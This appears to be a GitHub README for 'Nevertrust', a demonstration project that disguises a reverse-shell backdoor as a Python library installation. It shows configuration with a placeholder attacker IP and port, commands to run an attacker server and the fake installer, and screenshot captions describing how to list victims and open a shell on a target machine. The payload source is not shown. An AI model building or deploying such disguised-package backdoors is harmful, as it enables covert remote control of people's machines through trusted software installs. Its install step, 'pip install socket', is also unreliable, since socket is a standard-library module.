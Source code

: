# Nevertrust

This project Simulates a fake library of python that when the target see the installation of the packets, there is a side channel that open a connection to attacker and give him possible Shellcode attack.
## Installation

You need to install socket and tqdm libraries
```bash
pip install socket tqdm 
```

## Preparations

First, you make sure that you insert the correct IP of the attacker in the client file.
```python
SERVER_HOST = "IP_of_attacker"
SERVER_PORT = 5004
BUFFER_SIZE = 1440  # max size of messages, setting to 1440 after experimentation, MTU size
# separator string for sending 2 messages in one go
SEPARATOR = "<sep>
```

# Run
We will be use with two machine, the first one will be Parrot is for the attacker and the second, Kali Linux for the target.


```
python server.py
```
![צילום מסך 2024-01-25 065805](https://github.com/ronch11/Nevertrust/assets/71279601/bd3e7152-2010-4b24-b127-b0101115d547)

Now let's install our library on the client
```bash
python3 my_install.py 
```
![צילום מסך 2024-01-25 081905](https://github.com/ronch11/Nevertrust/assets/71279601/c0f5c945-c830-47cb-81ad-5cb2a8d004ea)

![צילום מסך 2024-01-25 082236](https://github.com/ronch11/Nevertrust/assets/71279601/33d66ea4-6800-403f-946b-b18aa26f9a2b)


Now let's check the connction between the sides

we can see that connction success
![צילום מסך 2024-01-25 082621](https://github.com/ronch11/Nevertrust/assets/71279601/f553ad0a-14e1-4f89-9a1e-71149e671a3b)


For see all targets we can use with the command list
![צילום מסך 2024-01-25 083157](https://github.com/ronch11/Nevertrust/assets/71279601/957d25c4-64be-4f98-9372-399362f8ad6a)

To choose the target we use with the command use X
X - will be the choosen index  
![צילום מסך 2024-01-25 083413](https://github.com/ronch11/Nevertrust/assets/71279601/0133d92a-2193-4101-babc-6e7699e8c95c)

Now we can see that we are in the shell of the target!
Let's cheek the IP of the target
![צילום מסך 2024-01-25 084225](https://github.com/ronch11/Nevertrust/assets/71279601/6d212c82-3fe2-42b7-a3b4-d445915f6006)

 We can see that we get the same IP address on the Parrot shell
![צילום מסך 2024-01-25 084416](https://github.com/ronch11/Nevertrust/assets/71279601/a48de220-54ae-49c7-8e5f-24dc1c82101f)
